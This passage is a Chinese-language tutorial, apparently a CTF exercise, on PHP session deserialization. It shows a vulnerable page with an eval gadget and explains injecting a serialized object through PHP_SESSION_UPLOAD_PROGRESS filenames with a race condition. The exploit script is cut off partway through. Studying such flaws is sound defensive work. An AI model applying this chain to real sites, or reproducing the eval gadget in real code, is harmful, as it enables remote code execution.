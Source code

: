 ### 示例代码

```php
<?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle=new TimeNow();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this->ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this->ip);
    }
}
?>
```



**问题一**

整个代码没有参数可控的地方。通过什么方法来进行反序列化利用呢

**解答一**

这里，利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。

另外，与文件包含利用一样，也需要进行竞争。



首先利用exp.php脚本构造恶意序列化语句

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle = new IP();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
```